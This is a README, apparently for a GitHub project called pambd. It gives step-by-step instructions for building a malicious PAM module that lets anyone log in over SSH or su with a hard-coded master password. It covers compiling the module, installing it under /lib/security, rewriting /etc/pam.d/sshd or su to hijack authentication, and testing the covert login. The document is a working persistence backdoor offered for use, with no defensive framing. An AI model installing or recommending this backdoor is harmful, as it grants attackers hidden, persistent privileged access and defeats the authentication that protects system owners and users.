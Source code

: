 pambd
=====

Introduction
------------

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

    pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory

First install the package **libpam-dev** that contains the needed headers file for compilation:

    deftcode pambd $ sudo apt-get install libpam0g-dev

Now edit the **pambd.c** and set your master custom password:

    #define MYPASSWD "my_master_passwd"

After that, generate the pam backdoor with:
(It needs the root permissions)

    deftcode pambd $ sudo sh gen.sh

This will generate the pam backdoor at **/lib/security/pambd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

    nauth           sufficient      pam_rootok.so
    auth            sufficient      pam_unix.so     # This must be 'sufficient'.
    account         required        pam_unix.so
    session         required        pam_unix.so
    auth            sufficient      pambd.so        # This is our pam backdoor.
    account         sufficient      pambd.so        # --


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

    deftcode pambd $ file /lib/security/pambd.so 
    /lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped

Example with the **SSH** service:

    deftcode pambd $ ssh eurialo@deftcode.local
    eurialo@deftcode.local's password: 
    
    # eg. enter: my_master_passwd or real_user_password
    
    Last login: Thu May 21 05:55:13 2015 from localhost
    deftcode ~ $ 

Example with **su**:

    deftcode pambd $ su -
    Password: 

    # eg. enter: my_master_passwd or real_user_password

    deftcode ~ # 
